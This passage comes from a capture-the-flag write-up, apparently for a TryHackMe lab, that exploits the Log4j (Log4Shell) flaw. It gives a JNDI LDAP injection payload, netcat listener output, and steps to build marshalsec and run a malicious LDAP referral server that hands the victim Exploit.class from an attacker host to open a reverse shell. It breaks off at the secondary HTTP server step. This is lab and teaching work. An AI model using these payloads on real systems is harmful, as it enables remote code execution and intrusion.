 ![burp2](../../assets/img/posts/Lumberjackturtle/burp2.png)

We dont get any response back which is a good sign .It means we've got a connection back in our netcat session.

```bash
┌──(root💀kali)-[~/thm/Lumberjackturtle]
└─$ sudo nc -lvnp 53
listening on [any] 53 ...
connect to [10.8.106.23] from (UNKNOWN) [10.10.197.211] 50810
0
 `�
```
## RCE using log4j

Now we need to get a shell to move further.

### Exploit 

 _This is how it works_ 

1. When we send the payload `${jndi:ldap://attackerserver:1389/Exploit}` - it reaches out to our LDAP server .
2. The LDAP server forwards the request to our secondary server asking for the resource located at `http://attackerserver:8000/Exploit` .
3. Secondary server serves the `Exploit.class` file.
4. After retreiving , `the victim_server executes the code present in Exploit.class` (which is basically a reverse shell)
5. Once it executes , we get a reverse shell back on our netcat .

I'll explain the steps one by one , just follow me along .

First things first we need `java version 8` on our machine in order to build the LDAP server .Create 4 terminal windows and follow the steps.
> Note : Change VICTIM-IP with your Machine_IP and ATTACKER-IP to your tun0 IP! 

### LDAP server (Terminal 1)

Steps: 

1. To exploit this issue, we need to have a malicious LDAP server. Marshalsec Utility can be used for this part .Git clone the repository.
LINK - [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec) .
2. Run `sudo apt install maven` to install Java builder maven.
3. `cd marshalsec` (move into the cloned repository)
4. RUN - `mvn clean package -DskipTests` (build marshalsec utility)
5. RUN - `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer “http://ATTACKER-IP:8000/#Exploit"`  (start LDAP referal server)


### Secondary HTTP server (Terminal 2)

This is used to serve the `Exploit.class` file when the victim server requests it.
